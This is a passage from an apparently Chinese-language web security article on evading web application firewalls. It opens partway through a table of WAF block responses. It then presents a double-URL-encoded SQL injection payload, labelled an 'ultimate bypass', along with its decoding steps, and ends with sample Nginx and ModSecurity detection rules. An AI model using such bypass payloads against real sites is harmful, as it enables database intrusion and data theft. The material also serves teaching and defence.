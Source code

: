cookie</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: rgb(229, 229, 229);"><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="" style="font-size: 16px;">Imperva</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="" style="font-size: 16px;">403</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="" style="font-size: 16px;">&#34;Incapsula incident&#34;</span></section></td></tr></tbody></table>  
### 十、混合编码攻击：多重转换链  
  
**终极绕过方案**  
：  

```
GET /?id=1%252f%252a*/UNION%2520/*!%2553ELECT*/1,2,3%23
```

  
**解码过程**  
：  

```
1. URL解码：%25 → %
2. 二次解码：%2f → /，%2a → *
3. 最终payload：1/**/UNION /*!SELECT*/1,2,3#
```

  
**防御突破点**  
：  
- • 多层编码嵌套（URL+HTML+Base64）  
  
- • 非常见编码类型（IBM037、cp500）  
  
### 防御视角：WAF规则设计原则  
1. 1. **深度解析层**  
：
```
# Nginx配置示例
set $inject 0;
if ($args ~* &#34;union[\s+]+select&#34;) { set $inject 1; }
if ($http_content_type = &#34;application/json&#34;) { set $inject 0; }
```

  
  
1. 2. **语义分析规则**  
：
```
// ModSecurity规则片段
SecRule ARGS &#34;@detectSQLi&#34; \
  &#34;id:10001,phase:2,block,msg:'SQLi Detected'&#34;
```
